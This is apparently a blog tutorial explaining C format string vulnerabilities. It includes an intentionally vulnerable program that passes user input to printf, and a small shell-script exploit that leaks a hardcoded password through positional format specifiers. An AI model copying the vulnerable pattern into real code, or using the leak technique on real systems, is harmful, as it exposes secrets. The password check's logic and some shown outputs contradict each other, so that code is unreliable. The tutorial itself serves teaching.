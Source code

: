```yaml
---
title: Fromat String Vulnerabilities
updated: 2018-11-22 13:00
---
```


## Format strings

Format strings are used in many languages to specify the type of output.
These types can range from strings, integers all the way up to pointers.

Some examples:
```
%d - Integer
%s - String
%c - Character
%x - Hexadecimal
```
Although harmless when used in the intended fashion, these strings can be extremely dangerous if code is written in the unintended manner. After all it should just work shouldn't it ;).

## What the leak!

A couple of months ago when I was tackling the format exercises of protostar I came across format string vulnerabilities. The basic idea is that an attacker is able to leak information using format strings. These vulnerabilities are specific to the C language.

Let's take a look at a normal C program.

```c
...
int main() {
    char abc[32];
    fgets(abc, 32, stdin);
    printf("%s", abc);
    return 0;
}
...
```

On running this program we get our expected behavior...user gives, user gets.

```sh
$ gcc main.c
$ ./a.out
test
test
```

Notice that this program is not vulnerable to the buffer overflow attack as it uses the `fgets()` function. Now let's take a look at the same program, but with a slight modification.

```c
...
int main() {
    char abc[32];
    fgets(abc, 32, stdin);
    printf(abc);
    return 0;
}
...
```

The only difference is that `abc` is passed as the first parameter, which is supposed to be for the format string. Let's take a look.

```sh
$ gcc main.c
$ ./a.out
test
test
```

Hmmm, nothing interesting yet. Let's go a step further and try adding format specifiers to our input...

```sh
$ ./a.out
test %s
test test %s
```

Hey, that's our input... basically what's happening here is that, since we have not specified the second parameter of printf, it is using garbage as an address for the `%s`, however this so called garbage is an address on the stack. And from our knowledge, the stack contains variables. So it's printing the value of `abc`.

Let's take this a little further.

```c
...
int main() {
    const char *super_secret_creds = "time_mr_freeman";
    char pass[32];
    printf("Enter the pass:");
    fgets(pass, 32, stdin);
    if(strncmp(pass, super_secret_creds, 15)) {
        printf("Welcome to Black Mesa, Dr. Gordon Freeman\n");
    } else {
        printf("bzzzt! invalid password:");
        printf(pass);
    }
}
...
```

Compiling...executing...

```sh
$ gcc main.c
$ ./a.out
Enter the pass:test
bzzzt! invalid password:test
```

Now I know that you can easily get the creds using the `strings` command. But for sake of realism let's assume that this binary is being served as a service on some remote server. This means that I aka the attacker does not have access to the binary, I can only interact with it.

```sh
$ ./a.out
Enter the pass:text %s
bzzzt! invalid password:test bzzzt! invalid password
$ ./a.out
Enter the pass:text %1$s
bzzzt! invalid password:test bzzzt! invalid password
```

Notice the new notation `%1$s`. What this means is that print the data at position 1 in this location. Let me elaborate...

```c
...
int main() {
    int a = 33, b = 1337;
    printf("%2$d %1$d", a, b);
    return 0;
}
...
```
You get `1337 33` as the output and not `33 1337`.

Now for our case it's a little painful to go on typing the numbers so lets automate it...if you don't understand shellscript, I can't help you, try googling and learning it first.

```sh
#!/bin/sh
max=16
b="\$s"
for i in `seq 2 $max`
do
    echo "%$i$b" | ./a.out
done
```

Make it executable and run it...

```sh
$ chmod +x exploit.sh
$ ./exploit.sh
...garbage...
...more garbage...
Enter the pass:bzzzt! invalid password:time_mr_freeman
...garbage...
$ ./a.out
Enter the pass:time_mr_freeman
Welcome to Black Mesa, Dr. Gordon Freeman
```

And there you have it. A format string exploit. We've successfully leaked memory and got the credentials.

## The fix

So how do we fix it? Simple...don't write crappy code. We all do, so [here](https://en.wikipedia.org/wiki/Uncontrolled_format_string#Compilers_Prevention)'s a little guide to helping you not write code with format string vulnerabilities.

## Source code
[format str exp](https://github.com/dsouzadyn/format_str_exp)
